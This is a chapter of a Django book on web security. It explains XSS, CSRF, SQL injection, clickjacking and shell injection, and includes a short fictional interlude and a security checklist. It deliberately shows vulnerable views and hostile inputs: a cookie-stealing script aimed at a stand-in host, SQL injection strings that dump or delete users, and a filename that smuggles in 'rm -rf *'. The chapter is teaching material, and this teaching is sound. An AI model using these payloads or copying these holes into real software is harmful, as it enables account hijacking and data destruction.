


# Security

In this chapter, we will discuss the following topics:
- Various web attacks and countermeasures
- Where Django can and cannot help
- Security checks for Django applications

Several prominent industry reports suggest that websites and web applications remain one
of the primary targets of cyber attacks. Yet, about 86 percent of all websites, tested by a
leading security firm in 2013, had at least one serious vulnerability.

Releasing your application to the wild is fraught with several dangers ranging from the
leaking of confidential information to denial-of-service attacks. Mainstream media
headlines security flaws focusing on exploits, such as Heartbleed, Cloudbleed, Superfish,
and POODLE, that have an adverse impact on critical website applications, such as email
and banking. Indeed, one often wonders if WWW now means the World Wide Web or the
Wild Wild West.

One of the biggest selling points of Django is its strong focus on security. In this chapter, we
will cover the top techniques that attackers use. As we will soon see in this chapter, Django
can protect you from most of them out of the box.

I believe that in order to protect your site from attackers, you will need to think like one. So,
let's familiarize ourselves with the common attacks.


### Cross-site scripting
**Cross-site scripting (XSS)**, considered the most prevalent web application security flaw
today, enables an attacker to execute their malicious scripts (usually JavaScript) on web
pages viewed by users. Typically, the server is tricked into serving their malicious content
along with the trusted content.

How does a malicious piece of code reach the server? The common means of entering
external data into a website are as follows:
- Form fields
- URLs
- Redirects
- External scripts such as Ads or Analytics

None of these can be entirely avoided. The real problem is when outside data gets used
without being validated or sanitized (as shown in the following screenshot); never trust
outside data:



For example, let's take a look at a piece of vulnerable code and how an XSS attack can be
performed on it. It is strongly advised that you do not to use this code in any form:

```python
class XSSDemoView(View):
    def get(self, request):
        # WARNING: This code is insecure and prone to XSS attacks
        # *** Do not use it!!! ***
        if 'q' in request.GET:
            return HttpResponse("Searched for: {}".format(
                request.GET['q']))
                
        else:
            return HttpResponse("""<form method="get">
        <input type="text" name="q" placeholder="Search" value="">
        <button type="submit">Go</button>
        </form>""")
```

The preceding code is a **View** class that shows a search form when accessed without any
**GET** parameters. If the search form is submitted, it shows the **Search** string exactly as
entered by the user in the form.

Now, open this view in a dated browser (say, IE 8) and enter the following search term in
the form and submit it:

```js
<script>alert("pwned")</script>
```

Unsurprisingly, the browser will show an alert box with the ominous message - pwned.

<pre>
This attack fails in current browsers such as the latest Chrome, which will
present the following error message in the console: Refused to execute a
JavaScript script. The source code of script found within request.
</pre>


In case you are wondering what harm a simple alert message could cause, remember that
any JavaScript code can be executed in the same manner. In the worst case, the user's
cookies can be sent to a site controlled by the attacker by entering the following search
term:

```js
<script>var adr = 'http://lair.com/evil.php?stolen=' +
escape(document.cookie);</script>
```

Once your cookies are sent, the attacker might be able to conduct a more serious attack.


### Why are your cookies valuable?
It might be worth understanding why cookies are the target of several attacks. Simply put,
access to cookies allows attackers to impersonate you and even take control of your web
account.

To understand this in detail, you need to understand the concept of **sessions**. HTTP is
stateless. Be it an anonymous or an authenticated user, Django keeps track of their activities
for a certain duration of time by managing sessions.

A session consists of a session ID at the client end, that is, the browser and a dictionary-like
object stored at the server end. The session ID is a random 32-character string that is stored
as a cookie in the browser. Each time a user makes a request to a website, all their cookies,
including this session ID, are sent along with the request.

At the server end, Django maintains a session store that maps this session ID to the session
data. By default, Django stores the session data in the **django_session** database table.

Once a user successfully logs in, the session will note that the authentication was successful
and will keep track of the user. Therefore, the cookie becomes a temporary user
authentication for subsequent transactions. Anyone who acquires this cookie can use this
web application as that user, which is called session hijacking.


### How Django helps
You might have observed that my example was an extremely unusual way of
implementing a view in Django for two reasons: it did not use templates for rendering, and
form classes were not used. Both of them have XSS-prevention measures.

By default, Django templates auto-escape HTML special characters. So, if you had
displayed the search string in a template, all the tags would have been HTML encoded.
This makes it impossible to inject scripts unless you explicitly turn them off by marking the
content as safe.

Using form classes in Django to validate and sanitize the input is also a very effective
countermeasure. For example, if your application requires a numeric employee ID, then use
an **IntegerField** class rather than the more permissive **CharField** class.

In our example, we can use a **RegexValidator** class in our search-term field to restrict the
user to alphanumeric characters and allow punctuation symbols recognized by your search
module. Restrict the acceptable range of the user input as strictly as possible.


### Where Django might not help
Django can prevent 80 percent of XSS attacks through auto-escaping in templates. For the remaining scenarios, you must take care to do the following tasks:
- Quote all HTML attributes, for example, replace `<a href={{link}}>` with `<a href="{{link}}">`
- Escape dynamic data in CSS or JavaScript using **custom** methods
- Validate all URLs, especially against unsafe protocols such as JavaScript
- Avoid client-side XSS (also, known as DOM-based XSS)

As a general rule against XSS, I suggest filter on input and escape on output. Make sure that
you strictly validate and sanitize (filter) any data that comes in and transform (escape) it
immediately before sending it to the user—specifically, if you need to support the user
input with HTML formatting such as comments, consider using Markdown instead.

<pre>
Filter on input and escape on output.
</pre>


### Cross-site request forgery
**Cross-site request forgery (CSRF)** is an attack that tricks a user into making unwanted
actions on a website, where they are already authenticated, while they are visiting another
site. Say, in a forum, an attacker can place an IMG or IFRAME tag within the page that
makes a carefully crafted request to the authenticated site.

For instance, the following fake 0x0 image can be embedded in a comment:

```html

```

If you have already signed into SuperBook from another tab, and if the site doesn't have
CSRF countermeasures, then a very embarrassing message will be posted. In other words,
CSRF allows the attacker to perform actions by assuming your identity.


### How Django helps

The basic protection against CSRF is to use an HTTP **POST** (or **PUT** and **DELETE**, if
supported) for any action that has side effects. Any GET (or HEAD) request must be used
for information retrieval, for example, read-only.

Django offers countermeasures against **POST**, **PUT**, or **DELETE** methods by embedding a
token. You must already be familiar with the **** mentioned inside each
Django form template. This is rendered into a random value that must be present while
submitting the form.

The way this works is that the attacker will not be able to guess the token while crafting the
request to your authenticated site. Since the token is mandatory and must match the value
presented while displaying the form, the form submission fails and the attack is thwarted.

### Where Django might not help
Some people turn off CSRF checks in a view with the @csrf_exempt decorator, especially
for AJAX form posts. This is not recommended unless you have carefully considered the
security risks involved.


### SQL injection
SQL injection is the second most common vulnerability of web applications, after XSS. The
attack involves entering malicious SQL code into a query that gets executed on the
database. It could result in data theft, by dumping database content, or the destruction of
data, say, by using the **DROP TABLE** command.

If you are familiar with SQL, then you can understand the following piece of code; it looks
up an email address based on the given **username**:

```python
name = request.GET['user']

sql = "SELECT email FROM users WHERE username = '{}';".format(name)
```

At first glance, it might appear that only the email address corresponds to the **username**
mentioned as the **GET** parameter will be returned. However, imagine if
an attacker entered ' OR '1'='1' in the form field, then the SQL code would be as
follows:

```sql
SELECT email FROM users WHERE username = '' OR '1'='1';
```

Since this **WHERE** clause will always be true, the emails of all the users of your application
will be returned. This can be a serious leak of confidential information.

Again, if the attacker wishes, they could execute more dangerous queries like the following:

```sql
SELECT email FROM users WHERE username = ''; DELETE FROM users WHERE '1'='1';
```

Now, all the user entries will be wiped off your database!


### How Django helps
The countermeasure against an SQL injection is fairly simple. Use the Django ORM rather
than crafting SQL statements by hand. The preceding example should be implemented as
follows:

```python
User.objects.get(username=name).email
```

Here, Django's database drivers will automatically escape the parameters. This will ensure
that they are treated as purely data and, therefore, they are harmless. However, as we will
soon see, even the ORM has a few escape latches.

 
### Where Django might not help
There could be instances where people would need to resort to raw SQL, say, due to
limitations of the Django ORM. For example, the where clause of the **extra()** method of a
QuerySet allows raw SQL. This SQL code will not be escaped against SQL injections.

If you are using the low-level ORM API, such as the **execute()** method, then you might
want to pass bind parameters instead of interpolating the SQL string yourself. Even then, it
is strongly recommended that you check whether each identifier has been properly
escaped.

Finally, if you are using a third-party database API such as MongoDB, then you will need
to manually check for SQL injections. Ideally, you would want to use only thoroughly
sanitized data with such interfaces.


### Clickjacking
**Clickjacking** is a means of misleading a user to click on a hidden link or button in the
browser when they were intending to click on something else.
 
This is typically implemented using an invisible IFRAME that contains the target website
over a dummy web page (shown here) that the user is likely to click on:


 
Since the action button in the invisible frame would be aligned exactly above the button in
the dummy page, the user's click will perform an action on the target website instead.

 
### How Django helps
Django protects your site from clickjacking using middleware that can be fine-tuned using
several decorators. By default, this `django.middleware.clickjacking.XFrameOptionsMiddleware` middleware will be
included in your **MIDDLEWARE_CLASSES** within your settings file. It works by setting the XFrame-Options header to **SAMEORIGIN** for every outgoing **HttpResponse**.

Most modern browsers recognize the header, which means that this page should not be
inside a frame in other domains. The protection can be enabled and disabled for certain
views using decorators, such as `@xframe_options_deny` and `@xframe_options_exempt`.

 
### Shell injection
As the name suggests, shell injection or command injection allows an attacker to inject
malicious code into a system shell such as bash. Even web applications use command-line
programs for convenience and their functionality. Such processes are typically run within a
shell.

For example, if you want to show all the details of a file whose name is given by the user, a
naïve implementation would be as follows:

```python
os.system("ls -l {}".format(filename))
```

An attacker can enter the filename as `manage.py; rm -rf *` and delete all the
files in your directory. In general, it is not advisable to use `os.system`. The subprocess
module is a safer alternative (or even better, you can use `os.stat()` to get the file's attributes).

Since a shell will interpret the command-line arguments and environment variables, setting
malicious values in them can allow the attacker to execute arbitrary system commands.

 
### How Django helps
Django primarily depends on WSGI for deployment. Since WSGI, unlike CGI, does not set
on environment variables based on the request, the framework itself is not vulnerable to
shell injections in its default configuration.

However, if the Django application needs to run other executables, then care must be taken
to run it in a restricted manner, that is, with least permissions. Any parameter originating
externally must be sanitized before passing to such executables. Additionally, use call()
from the subprocess module to run command-line programs with its default `shell=False`
parameter to handle arguments securely if shell interpolation is not necessary.
 
 
### And the web attacks are unending
There are hundreds of attack techniques that we have not covered here, and the list keeps
growing every day as new attacks are found. It is important to keep ourselves aware of
them.

Django's official blog (https://www.djangoproject.com/weblog/) is a great place to find
out about the latest exploits that have been discovered. Django maintainers proactively try
to resolve them by releasing security releases. It is highly recommended that you install
them as quickly as possible since they usually need very little or no changes to your source
code.

The security of your application is only as strong as its weakest link. Even if your Django
code might be completely secure, there are so many layers and components in your stack,
not to mention human elements, who can also be tricked with various social engineering
techniques, such as phishing.

Vulnerabilities in one area, such as the OS, database, or web server, can be exploited to gain
access to other parts of your system. Hence, it is best to have a holistic view of your stack
rather than view each part separately.


<pre>
    **The safe room**
    As soon as Steve stepped outside the boardroom, he took out his phone
    and thumbed a crisp one-liner e-mail to his team: "It's a go!"
    
    In the last 60 minutes, he had been grilled by the directors on every
    possible detail of the launch. Madam O, to Steve's annoyance, maintained
    her stoic silence the entire time.
    
    He entered his cabin and opened his slide printouts once more. The
    number of trivial bugs dropped sharply after the checklists were
    introduced. Essential features that were impossible to include in the
    release were worked out through early collaboration with helpful users,
    such as Hexa and Aksel.
    
    The number of signups for the beta site had crossed 9,000, thanks to Sue's
    brilliant marketing campaign. Never in his career had Steve seen so much
    interest for a launch. It was then that he noticed something odd about the
    newspaper on his desk.
    
    Fifteen minutes later, he rushed down the aisle in level 21. At the very
    end, there was a door marked 2109. When he opened it, he saw Evan
    working on what looked like a white plastic toy laptop. "Why did you
    circle the crossword clues? You could have just called me," asked Steve.
    
    "I want to show you something," he replied with a grin. He grabbed his
    laptop and walked out. He stopped between room 2110 and the fire exit.
    He fell on his knees and with his right hand, he groped the faded
    wallpaper. "There has to be a latch here somewhere," he muttered.
    
    Then, his hand stopped and turned a handle barely protruding from the
    wall. A part of the wall swiveled and came to a halt. It revealed an
    entrance to a room lit with a red light. A sign inside dangling from the
    roof said "Safe room 21B."
    
    As they entered, numerous screens and lights flicked on by themselves. A
    large screen on the wall said "authentication required. Insert key." Evan
    admired this briefly and began wiring up his laptop.
    
    "Evan, what are we doing here?" asked Steve in a hushed voice. Evan
    stopped, "Oh, right. I guess we have some time before the tests finish." He
    took a deep breath.
    
    "Remember when Madam O wanted me to look into the Sentinel
    codebase? I did. I realized that we were given censored source code. I
    mean I can understand removing some passwords here and there, but
    thousands of lines of code? I kept thinking-there had to be something
    going on."
    
    "So, with my access to the archiver, I pulled some of the older backups.
    The odds of not erasing a magnetic medium are surprisingly high.
    Anyways, I could recover most of the erased code. You won't believe what
    I saw."
    
    Sentinel was not an ordinary social network project. It was a surveillance
    program. Perhaps the largest known to mankind.
    
    Post-Cold War, a group of nations joined to form a network to share
    intelligence information. A network of humans and sentinels. Sentinels
    are semi-autonomous computers with unbelievable computing power.
    Some believe they are quantum computers.
    
    Sentinels were inserted at thousands of strategic locations around the
    world-mostly ocean beds where major fiber optic cables are passed.
    Running on geothermal energy, they were self–powered and practically
    indestructible. They had access to nearly every internet communication in
    most countries.
    
    At some point in the nineties, perhaps fearing public scrutiny, the Sentinel
    program was shut down. This is where it gets really interesting. The code
    history suggests that the development on Sentinels was continued by
    someone named Cerebos. The code has been drastically enhanced from its
    surveillance abilities to form a sort of massively parallel supercomputer. A
    number-crunching beast for whom no encryption algorithm poses a
    significant challenge.
    
    Remember the breach? I found it hard to believe that there was not a
    single offensive move before the superheroes arrived. So, I did some
    research. SHIM's cybersecurity is designed as five concentric rings. We,
    the employees, are in the outermost, least privileged, ring protected by
    Sauron. Inner rings are designed with increasingly stronger cryptographic
    algorithms. This room is in level 4.
    
    My guess is that long before we knew about the breach, all systems of
    Sauron were already compromised. Systems were down and it was
    practically a cakewalk for those robots to enter the campus. I just looked
    at the logs. The attack was extremely targeted–everything from IP
    addresses to logins were known beforehand.
    
    "Insider?" asked Steve in horror.
    
    "Yes. However, Sentinels needed help only for Level 5. Once they
    acquired the public keys for Level 4, they began attacking Level 4 systems.
    It sounds insane but that was their strategy."
    
    "Why is it insane?"
    
    "Well, most of the world's online security is based on public-key
    cryptography or asymmetric cryptography. It is based on two keys: one
    public and the other private. Although mathematically related, it is
    computationally impractical to find one key if you have the other."
    
    "Are you saying that the Sentinel network can?"
    
    "In fact, they can for smaller keys. Based on the tests I am running right
    now, their powers have grown significantly. At this rate, they should be
    ready for another attack in less than 24 hours."
    
    "Damn, that's when SuperBook goes live!"

</pre>


### A handy security checklist
Security is not an afterthought but is instead integral to the way you write applications.
However, being human, it is handy to have a checklist to remind you of the common
omissions.

The following points are a bare minimum of security checks that you should perform
before making your Django application public:
- **Don't trust data from a browser, API, or any outside sources:** This is a
  fundamental rule. Make sure that you validate and sanitize any outside data.
- **Don't keep** SECRET_KEY **in version control:** As a best practice, pick **SECRET_KEY**
  from the environment. Check out the `django-environ` package.
- **Don't store passwords in plain text:** Store your application password hashes instead. Add a random salt as well.
- **Don't log any sensitive data:** Filter out the confidential data, such as credit card details or API keys, before recording them in your log files.
- **Any secure transaction or login should use SSL:** Be aware that eavesdroppers in
the same network as you could listen to your web traffic if it is not in HTTPS.
Ideally, you ought to use HTTPS for the entire site.
- **Avoid using redirects to user-supplied URLs:** If you have redirects such as
http://example.com/r?url=http://evil.com, then always check against
whitelisted domains.
- **Check authorization even for authenticated users:** Before performing any
change with side effects, check whether the logged-in user is allowed to perform
it.
- **Use the strictest possible regular expressions:** Be it your `URLconf` or
form validators, you must avoid lazy and generic regular expressions.
- **Don't keep your Python code in web root:** This can lead to an accidental leak of
source code if it gets served as plain text.
- **Use Django templates instead of building strings by hand:** Templates have
protection against XSS attacks.
- **Use Django ORM rather than SQL commands:** The ORM offers protection
against SQL injection.
- **Use Django forms with POST input for any action with side effects:** It might
seem like overkill to use forms for a simple vote button, but do it.
- **CSRF should be enabled and used:** Be very careful if you are exempting certain
views using the @csrf_exempt decorator.
- **Ensure that Django and all packages are the latest versions:** Plan for updates.
They might need some changes to be made to your source code. However, they
bring shiny new features and security fixes too.
- **Limit the size and type of user-uploaded files:** Allowing large file uploads can
cause denial-of-service attacks. Deny uploading of executables or scripts.
- **Have a backup and recovery plan:** Thanks to Murphy, you can plan for an
inevitable attack, catastrophe, or any other kind of downtime. Make sure that
you take frequent backups to minimize data loss.

Some of these can be checked automatically using Erik's Pony Checkup
at http://ponycheckup.com/. However, I would recommend that you print or copy this
checklist and stick it on your desk.

Remember that this list is by no means exhaustive and not a substitute for a proper security
audit by a professional.

### Summary
In this chapter, we looked at the common types of attacks affecting websites and web
applications. In many cases, the explanation of the techniques has been simplified for
clarity at the cost of detail. However, once we understand the severity of the attack, we can
appreciate the countermeasures that Django provides.

In our final chapter, we will take a look at predeployment activities in more detail. We will
also take a look at the various deployment strategies, such as cloud-based hosting for
deploying a Django application.
